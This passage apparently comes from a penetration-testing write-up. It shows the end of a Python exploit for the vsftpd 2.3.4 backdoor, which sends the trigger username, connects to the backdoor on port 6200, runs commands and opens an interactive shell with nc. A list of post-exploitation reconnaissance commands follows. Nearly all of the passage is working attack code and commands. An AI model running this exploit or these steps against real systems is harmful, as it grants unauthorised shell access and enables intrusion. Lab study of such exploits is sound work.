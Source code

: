 ```python
        # Send malicious username
        s.send(b"USER malicious:)\r\n")
        response = s.recv(1024)
        print(f"USER response: {response.decode().strip()}")
        
        # Send password
        s.send(b"PASS anything\r\n")
        s.close()
        
        print("Backdoor triggered. Attempting to connect to port 6200...")
        time.sleep(2)
        
        # Connect to backdoor
        backdoor = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        backdoor.connect((target_ip, 6200))
        
        # Send command to verify access
        backdoor.send(b"id\n")
        result = backdoor.recv(1024)
        print(f"Command output: {result.decode()}")
        
        # Interactive shell
        import subprocess
        subprocess.call(f"nc {target_ip} 6200", shell=True)
        
    except Exception as e:
        print(f"Exploitation failed: {e}")

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("Usage: python3 vsftpd_exploit.py <target-ip>")
        sys.exit(1)
    
    target = sys.argv[1]
    exploit_vsftpd(target)
```

---

## ✅ Post-Exploitation Activities

### Initial System Reconnaissance
```bash
# Verify privileges
id
whoami
groups

# System information
uname -a
cat /etc/*release*
hostname

# Network configuration
ifconfig -a
ip addr show
netstat -tulpn

# Running processes
ps aux | head -20
ps -ef | grep root
```

